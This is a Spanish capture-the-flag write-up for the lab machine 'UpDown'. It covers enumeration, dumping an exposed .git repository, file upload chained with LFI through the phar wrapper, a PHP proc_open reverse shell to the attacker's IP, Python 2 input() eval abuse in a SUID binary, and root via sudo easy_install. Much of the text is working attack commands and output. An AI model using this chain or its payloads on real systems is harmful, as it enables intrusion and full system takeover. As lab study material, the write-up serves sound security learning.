


# Resolución maquina updown

**Autor:** PepeMaquina  
**Fecha:** 24 de octubre de 2025  
**Dificultad:** Medio  
**Sistema Operativo:** Linux  
**Tags:** Git, LFI, Python.

---

## Imagen de la Máquina

*Imagen: updown.JPG*

## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.177 -oG newtworked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 10.10.11.177 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Is my Website up ?
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
Al realizar la enumeración se ven solamente dos puertos abiertos: ssh y html.
Por lo que seguramente todo se procesara mediante la página web, asi que se realizara una enumeracion exhaustiva de ello.

### Enumeración de la página web
La página web parece comprobar si un sitio web se encuentra "arriba", funcionando correctamente o si se encuentra caida.
Con ello se puede dar un par de ideas, como probar si se encuentra mal sanitizado y puede llegar a nuestra maquina atacante.
Primero se abre un servidor web con python.
~~~
python3 -m http.server 80                                                                                  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) 
~~~
Y colocando nuestra ip en la pagina web, se ve que si realiza una petición a nuestra maquina.

~~~bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.177 - - [24/Oct/2025 23:13:08] "GET / HTTP/1.1" 200 
~~~
Esto da idea a realizar un ataque SSRF viendo si algún puerto interno se encuentra abierto.
Despues de realizar el ataque, no se ve ningun puerto interno abierto, por lo que no se mostrara como replicar el ataque ya que es innecesario para la resolución de la maquina.

Como en todas las maquinas siempre se realiza la enumeración de directorios y subdominios.
Primero realizando la enumeración de directorios se hallaron rutas interesantes.
**NOTA: Cabe recalcar que yo agregue "git" a mi lista "directory-list-2.3-medium.txt" para realizar la enumeración ya que no viene por defecto**
~~~bash
feroxbuster -u http://siteisup.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k -x php 
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://siteisup.htb
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ fuzz
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ INFINITE
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       40l       93w     1131c http://siteisup.htb/index.php
200      GET      320l      675w     5531c http://siteisup.htb/stylesheet.css
200      GET       40l       93w     1131c http://siteisup.htb/
301      GET        9l       28w      310c http://siteisup.htb/dev => http://siteisup.htb/dev/
200      GET        0l        0w        0c http://siteisup.htb/dev/index.php
301      GET        9l       28w      315c http://siteisup.htb/dev/.git => http://siteisup.htb/dev/.git/
200      GET        1l        2w       21c http://siteisup.htb/dev/.git/HEAD
200      GET       13l       35w      298c http://siteisup.htb/dev/.git/config
200      GET        3l       17w      762c http://siteisup.htb/dev/.git/index
200      GET        1l       10w       73c http://siteisup.htb/dev/.git/description
200      GET        1l        9w      179c http://siteisup.htb/dev/.git/logs/HEAD
200      GET       49l      279w     1643c http://siteisup.htb/dev/.git/hooks/pre-commit.sample
200      GET       78l      499w     2783c http://siteisup.htb/dev/.git/hooks/push-to-checkout.sample
200      GET       15l       79w      478c http://siteisup.htb/dev/.git/hooks/applypatch-msg.sample
200      GET       13l       67w      416c http://siteisup.htb/dev/.git/hooks/pre-merge-commit.sample
200      GET        6l       43w      240c http://siteisup.htb/dev/.git/info/exclude
200      GET        2l        8w      112c http://siteisup.htb/dev/.git/packed-refs
200      GET        8l       32w      189c http://siteisup.htb/dev/.git/hooks/post-update.sample
200      GET       24l       83w      544c http://siteisup.htb/dev/.git/hooks/pre-receive.sample
200      GET      128l      546w     3650c http://siteisup.htb/dev/.git/hooks/update.sample
200      GET      173l      669w     4655c http://siteisup.htb/dev/.git/hooks/fsmonitor-watchman.sample
200      GET       53l      234w     1374c http://siteisup.htb/dev/.git/hooks/pre-push.sample
200      GET       42l      238w     1492c http://siteisup.htb/dev/.git/hooks/prepare-commit-msg.sample
200      GET      169l      798w     4898c http://siteisup.htb/dev/.git/hooks/pre-rebase.sample
200      GET       14l       69w      424c http://siteisup.htb/dev/.git/hooks/pre-applypatch.sample
200      GET        1l        9w      179c http://siteisup.htb/dev/.git/logs/refs/heads/main
200      GET        1l        1w       41c http://siteisup.htb/dev/.git/refs/heads/main
200      GET       24l      163w      896c http://siteisup.htb/dev/.git/hooks/commit-msg.sample
200      GET        1l        2w       30c http://siteisup.htb/dev/.git/refs/remotes/origin/HEAD
200      GET        7l       47w     3538c http://siteisup.htb/dev/.git/objects/pack/pack-30e4e40cb7b0c696d1ce3a83a6725267d45715da.idx
200      GET       51l      314w    25756c http://siteisup.htb/dev/.git/objects/pack/pack-30e4e40cb7b0c696d1ce3a83a6725267d45715da.pack
200      GET        1l        9w      179c http://siteisup.htb/dev/.git/logs/refs/remotes/origin/HEAD
~~~
Como se ve, presenta un git que se puede ver para sacar algo de información de la página, pero esto se lo hará despues.
Primero cabe concentrar en realizar la enumeración de subdirectorios.
~~~bash
wfuzz -u http://10.10.11.177 -H "Host:FUZZ.siteisup.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 39
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.177/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                    
=====================================================================

000000022:   403        9 L      28 W       281 Ch      "dev"                                                                                      
000037212:   400        10 L     35 W       301 Ch      "*"                                                                                        

Total time: 0
Processed Requests: 100000
Filtered Requests: 99998
Requests/sec.: 0
~~~
Tambien se puede ver un subdominio interesante "dev", esto es normalmente para los desarrolladores y se pueden encontrar nuevas paginas con nuevas funciones que pueden no estar del todo seguras.

### GIT
Al momento de enumerar directorios se encontro un ".git", entonces se pueden utilizar herramientas como "git-dumper" (https://github.com/arthaud/git-dumper) para ver todo el contenido del repositorio.
~~~bash
python3 git_dumper.py http://10.10.11.177/dev/.git ../project                 
[-] Testing http://10.10.11.177/dev/.git/HEAD [200]
<SNIP>
[-] Fetching http://10.10.11.177/dev/.git/logs/refs/remotes/origin/HEAD [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 6 paths from the index
~~~
Ahora entrando al directorio "project" se puede ver todo lo que se obtuvo, entre ellas archivos de configuración, archivos php y demas, visualizando cada uno de ellos se notaron varias cosas.
La primera, un mensaje con indicaciones de que se debe modificar el header con un parametro especifico.
~~~bash
cat .htaccess    
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
~~~
Y otra que al revisar los archivos php no se ve la pagina que se tiene la misma página que esta corriendo actualmente en el sistema, sino una parecida pero con opciones diferentes.
~~~php
cat checker.php           
<?php
if(DIRECTACCESS){
        die("Access Denied");
}
?>
<!DOCTYPE html>
<html>

  <head>
    <meta charset='utf-8' />
    <meta http-equiv="X-UA-Compatible" content="chrome=1" />
    <link rel="stylesheet" type="text/css" media="screen" href="stylesheet.css">
    <title>Is my Website up ? (beta version)</title>
  </head>

  <body>

    

        <header class="inner">
          <h1 id="project_title">Welcome,  Is My Website UP ?</h1>
          <h2 id="project_tagline">In this version you are able to scan a list of websites !</h2>
        </header>
    

    

      <section id="main_content" class="inner">
        <form method="post" enctype="multipart/form-data">
                            <label>List of websites to check:</label>  
                                <input type="file" name="file" size="50">
                                <input name="check" type="submit" value="Check">
                </form>
<SNIP>
      </section>
    

    

      <footer class="inner">
        
siteisup.htb (beta)
 
        <a class="changelog" href="changelog.txt">changelog.txt</a> 
      </footer>
    

  </body>
</html>

~~~
Esto da a lugar a pensar que posiblemente sea una pagina en desarrollo, pero como se encontró un subdominio "dev.siteisup.htb", lo mas probable es que esta página se encuentre en este lugar.

### Explotación del subdominio
Primero se agrega el subdominio al archivo "/etc/hosts", despues se procede a ver el contenido de este.

Al parecer no tenemos permiso para entrar a dicho subdominio, pero recordando, un archivo que leimos en el git que se obtuvo habla de agregar un parámetro al header para que funcione correctamente (Special-Dev: only4dev).
Entonces abriendo burpsiute e interceptando la peticion se agrega el parametro y magicamente se tiene acceso.

Como mencione antes, es una pagina parecida pero con funciones mejoradas, ahora se puede subir un archivo con varias listas de url para probar si estan funcionando o no.
En el git que se encontro, existe el archivo de esta página con el nombre de "checker.php", resumiendo su funcionamiento, esta tiene una blacklist de archivos con extensiones que no se pueden subir, al subir un archivo valido crea una carpeta con un nombre random en la ruta de /uploads y sube el archivo, justo en ese momento ejecuta todos los comandos para ver si las url dentro el archivo estas funcionando o no, para finalmente borrar el archivo.
Como se puede notar, el archivo solo estará en la pagina por milisegundos por lo que es imposible enviar una shell en php y entrar en ella.

En este punto lo unico que pienso es en que de alguna forma de pueda interrumpir el proceso antes de que borre el archivo. No se me ocurre alguna forma asi que solo se me ocurre subir comprimidos esperando que lo descomprima y no se borre el archivo en su interior.
Probando ello, se subio un zip, pero ya que la extension .zip no se permite.
~~~bash
cat checker.php
if($_POST['check']){
  
        # File size must be less than 10kb.
        if ($_FILES['file']['size'] > 10000) {
        die("File too large!");
    }
        $file = $_FILES['file']['name'];

        # Check if extension is allowed.
        $ext = getExtension($file);
        if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
                die("Extension not allowed!");
        }
  
        # Create directory to upload our file.
        $dir = "uploads/".md5(time())."/";
        if(!is_dir($dir)){
        mkdir($dir, 0770, true);
    }
~~~
Se la coloca otra extension.
~~~
cat poc.php 
<?php phpinfo(); ?>

zip test.qwe poc.php                     
  adding: poc.php (stored 0%)

ls
poc.php    test.qwe
~~~
Subiendo esto a la página, se ve que carga correctamente.
**NOTA: No se olvide agregar el parametro (Special-Dev: only4dev) en todas las peticiones dentro del subdominio "dev.siteisup.htb"**

Ahora revisando si se creo un directorio que almacena el archivo de ve.

Se puede ver que efectivamente se cargo el archivo correctamente, pero el archivo que se cargo es el comprimido, por lo que no se puede ejecutar directamente el archivo php dentro del comprimido.

Siempre que me encuentro estancado en algun lado, lo mejor es dar un paso atras y ver que se nos pudo haber escapado, asi que revisando otra vez los archivos de git que sacamos, se ve un "index.php" que hace alucion de un posible LFI.
~~~bash
cat index.php 

<b>This is only for developers</b>
 
<a href="?page=admin">Admin Panel</a>
<?php
        define("DIRECTACCESS",false);
        $page=$_GET['page'];
        if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){
                include($_GET['page'] . ".php");
        }else{
                include("checker.php");
        }
?>
~~~
Por lo visto, existe una url en la pagina que solamente coloca "?page=admin" en la misma url (bastante raro y nada real), tambien se una blacklist con rutas a las que prohibe el acceso, especificamente para no poder hacer un LFI por ejemplo a /etc/passwd.
Pero algo que se debe saber, es que los LFI pueden ir de la mano con wrappers, siempre y cuando estos se encuentren habilitados en el sistema, pero nunca esta demas probarlos.

### Explotación LFI a shell en el sistema
Asi que relacionando el LFI con el archivo que subimos, existe un wrapper "phar" que puede leer archivos dentro de un archivo PHAR que también se almacenan en un formato similar a un ZIP. Existe un articulo que habla de especificamente de este ataque (https://rudrasarkar.medium.com/exploiting-phar-stream-wrapper-d2140592c6e7)
Entonces replicando este ataque con burpsuite.

Efectivamente, parece que funciona correctamente, dependiendo el contexto, lo que normalmente coloco en un php es su phpinfo() para ver que funciones se encuentran deshabilitadas y cuales no para poder realizar alguna reverse shell.
Por lo que se puede ver, casi todas las funciones normales como "system, exec, etc" se encuentran desahibilitadas, por lo que pidiendo ayuda a la IA, existe una que tambien podria usarse para inciar procesos como una shell, esto es con "proc_open".
Buscando en internet algunas formas de explotarlo, encontre lo siguiente:
~~~bash
cat poc4.php

<?php
$comando = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.17/4433 0>&1'"; // Ejemplo de comando
$descritores = [
    0 => ['pipe', 'r'], // stdin
    1 => ['pipe', 'w'], // stdout
    2 => ['pipe', 'w']  // stderr
];
$process = proc_open($comando, $descritores, $pipes);
?>
~~~
Asi que realizando los mismos pasos:
1. Comprimir el archivo php en un zip con  otra extensión.
2. Subir el archivo.
3. Realizar el LFI con el wrapper PHAR a la ruta del archivo php.
~~~bash
cat poc4.php 

<?php $comando = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.17/4433 0>&1'"; $descritores = [0 => ['pipe', 'r'], 1 => ['pipe', 'w'], 2 => ['pipe', 'w']]; $process = proc_open($comando, $descritores, $pipes); ?>

zip zx.zx poc4.php 
  adding: poc4.php (deflated 33%)
~~~

Ahora, antes de ejecutar se programa un escucha en mi maquina atacante para recibir la conexion
~~~bash
sudo nc -nlvp 4433
~~~

~~~bash
sudo nc -nlvp 4433
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.177] 59612
bash: cannot set terminal process group (907): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev$ 
~~~
Se puede ver que se entablo una conexión con un usuario www-data que es el que hostea el servidor web.
### Salto al usuario developer
Realizando enumeración manual, no se pudo encontrar ningun archivo de configuración para obtener credenciales, entonces saltando a los usuarios se puede ver un usuario developer.
~~~bash
www-data@updown:/$ cd home/
www-data@updown:/home$ ls
developer
~~~
Entrando a su carpeta de trabajo, se puede ver la bandera, pero no se tiene acceso a ella por falta de permisos, tambien se puede ver un directorio "dev"
~~~bash
www-data@updown:/home$ cd developer/
www-data@updown:/home/developer$ ls -la
total 40
drwxr-xr-x 6 developer developer 4096 Aug 30  2022 .
drwxr-xr-x 3 root      root      4096 Jun 22  2022 ..
lrwxrwxrwx 1 root      root         9 Jul 27  2022 .bash_history -> /dev/null
-rw-r--r-- 1 developer developer  231 Jun 22  2022 .bash_logout
-rw-r--r-- 1 developer developer 3771 Feb 25  2020 .bashrc
drwx------ 2 developer developer 4096 Aug 30  2022 .cache
drwxrwxr-x 3 developer developer 4096 Aug  1  2022 .local
-rw-r--r-- 1 developer developer  807 Feb 25  2020 .profile
drwx------ 2 developer developer 4096 Aug  2  2022 .ssh
drwxr-x--- 2 developer www-data  4096 Jun 22  2022 dev
-rw-r----- 1 root      developer   33 Oct 24 15:10 user.txt
www-data@updown:/home/developer$ cd dev/
www-data@updown:/home/developer/dev$ ls -la
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22  2022 .
drwxr-xr-x 6 developer developer  4096 Aug 30  2022 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22  2022 siteisup_test.py
~~~
Viendo los archivos en su interior, se puede ver que existe un binario "siteisup" con permisos SUID para el usuario developer, esto es una posible via de escalada de privilegios.
Inspeccionando el binario con strings
~~~bash
www-data@updown:/home/developer/dev$ strings /home/developer/dev/siteisup
/lib64/ld-linux-x86-64.so.2
libc.so.6
<SNIP>
Welcome to 'siteisup.htb' application
/usr/bin/python /home/developer/dev/siteisup_test.py
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
<SNIP>
.data
.bss
.comment
~~~
Se puede ver que basicamente llama al script "siteisup_test.py" para ejecutarlo, este script esta dentro del mismo directorio asi que se lo inspecciona.
~~~bash
www-data@updown:/home/developer/dev$ cat siteisup_test.py 
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
~~~
A primera vista salta que por la estructura de como esta escrito el "print", parece que se lo debe ejecutar con python2.
Algo interesante que se debe saber, es que en python2 la estructura de los inputs es diferente al de python3, esto porque antes el input hacia alusión a llamar a un "eval()" que es una función que permite llamar a otras funciones. Esta página lo explica mejor https://www.geeksforgeeks.org/python/vulnerability-input-function-python-2-x/.
Asi que se podria ingresar un payload para la entrada "input" del script en python.
~~~bash
www-data@updown:/home/developer/dev$ python2 siteisup_test.py 
Enter URL here:__import__('os').system('id')
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
Entonces se ve que funciona, pero este no es el archivo con permisos SUID, sino que es el otro binario "siteisup", por lo que se ejecuta con los comandos parecidos, pero esta ves se ejecuta directamente una bash.
~~~bash
www-data@updown:/home/developer/dev$ /home/developer/dev/siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('/bin/bash')
developer@updown:/home/developer/dev$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
~~~
Esto funcionó, ahora somos el usuario developer, pero por alguna razon aun pertenecemos al grupo www-data, por lo que aun no tendriamos acceso a la user flag.
Pero se tiene una carpeta ssh, esto tiene permisos 600 por lo que si puedo leerla, entonces copio el id_rsa e inicio sesion sin contraseña por ssh.
~~~bash
nano id_rsa  

chmod 600 id_rsa

ssh -i id_rsa developer@10.10.11.177
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct 24 23:59:47 UTC 2025

  System load:           0.0
  Usage of /:            55.7% of 2.84GB
  Memory usage:          28%
  Swap usage:            0%
  Processes:             239
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.177
  IPv6 address for eth0: dead:beef::250:56ff:fe94:51b3

  => There are 6 zombie processes.

8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Tue Aug 30 11:24:44 2022 from 10.10.14.36
developer@updown:~$
~~~
Listo, ahora se tiene acceso al usuario developer con todas las de la ley.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Con acceso al servidor, ahora se puede buscar la user flag.
~~~bash
developer@updown:~$ cat user.txt
<Encuentre su propia user flag>
~~~

---

## Escalada de Privilegios
La escalada de privilegios es bastante sencilla, simplemente vi los permisos sudo que podia hacer y encontre esta.
~~~bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
~~~
Esto dice que se puede ejecutar el binario "easy_install" como sudo y sin contraseña, por lo que buscando esto en GTFOBins se la pudo encontrar. 
Asi que solo es cosa de replicarlo y ejecutar.
~~~bash
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.UELgaA1Xvk
Writing /tmp/tmp.UELgaA1Xvk/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.UELgaA1Xvk/egg-dist-tmp-LGdlGw
# id
uid=0(root) gid=0(root) groups=0(root)
~~~
De esa manera se obtuvo acceso como root.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso como root a la maquina, ya se puede leer la root flag sin problema.
~~~
# cd /root
# ls  
root.txt  snap
# cat root.txt
<Encuentre su propia root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

